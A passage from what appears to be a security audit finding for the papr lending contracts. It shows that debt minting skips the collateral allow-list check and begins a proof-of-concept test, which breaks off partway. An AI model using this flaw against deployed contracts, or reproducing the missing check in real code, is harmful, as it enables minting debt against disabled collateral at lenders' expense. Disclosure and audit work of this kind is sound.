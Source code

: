     function _addCollateralToVault(address account, IPaprController.Collateral memory collateral) internal {
    	if (!isAllowed[address(collateral.addr)]) {
    		revert IPaprController.InvalidCollateral();
    	}

But does not have the same check when minting debt, then user can use disabled collateral to mint debt:

    function _increaseDebt(
    	address account,
    	ERC721 asset,
    	address mintTo,
    	uint256 amount,
    	ReservoirOracleUnderwriter.OracleInfo memory oracleInfo
    ) internal {
    	uint256 cachedTarget = updateTarget();
    
    	uint256 newDebt = _vaultInfo[account][asset].debt + amount;
    	uint256 oraclePrice =
    		underwritePriceForCollateral(asset, ReservoirOracleUnderwriter.PriceKind.LOWER, oracleInfo);
    
    	uint256 max = _maxDebt(_vaultInfo[account][asset].count * oraclePrice, cachedTarget);
    
    	if (newDebt > max) revert IPaprController.ExceedsMaxDebt(newDebt, max);
    
    	if (newDebt >= 1 << 200) revert IPaprController.DebtAmountExceedsUint200();
    
    	_vaultInfo[account][asset].debt = uint200(newDebt);
    	PaprToken(address(papr)).mint(mintTo, amount);
    
    	emit IncreaseDebt(account, asset, amount);
    }

As shown in the coded POC, we can add the following test to increaseDebt.t.sol:

[https://github.com/with-backed/papr/blob/9528f2711ff0c1522076b9f93fba13f88d5bd5e6/test/paprController/IncreaseDebt.t.sol#L32](https://github.com/with-backed/papr/blob/9528f2711ff0c1522076b9f93fba13f88d5bd5e6/test/paprController/IncreaseDebt.t.sol#L32)

    function testIncreaseDebt_POC() public {
    
    	uint256 debt = 10 ether;
    	// console.log(debt);
    
    	vm.assume(debt < type(uint200).max);
    	vm.assume(debt < type(uint256).max / controller.maxLTV() / 2);
    
    	oraclePrice = debt * 2;
    	oracleInfo = _getOracleInfoForCollateral(nft, underlying);
    
    
    	vm.startPrank(borrower);
    	nft.approve(address(controller), collateralId);
    	IPaprController.Collateral[] memory c = new IPaprController.Collateral[](1);
    	c[0] = collateral;
    
    	controller.addCollateral(c);
    